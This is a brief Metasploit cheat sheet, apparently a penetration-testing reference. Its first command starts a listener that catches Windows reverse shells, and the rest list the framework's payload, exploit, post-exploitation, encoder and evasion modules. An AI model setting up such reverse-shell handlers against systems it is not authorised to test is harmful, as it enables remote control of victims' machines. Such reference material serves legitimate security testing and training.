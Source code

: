# Metasploit basics

## Start Metasploit

```bash
msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 6656;set payload windows/shell_reverse_tcp;run'
```

## Show all payloads

```bash
msfconsole -qx 'show payloads'
```

## Show all exploits

```bash
msfconsole -qx 'show exploits'
```

## Show all auxiliary modules

```bash
msfconsole -qx 'show auxiliary'
```

## Show all post modules

```bash
msfconsole -qx 'show post'
```

## Show all encoders

```bash
msfconsole -qx 'show encoders'
```

## Show all nops

```bash
msfconsole -qx 'show nops'
```

## Show all evasion modules

```bash
msfconsole -qx 'show evasion'
```
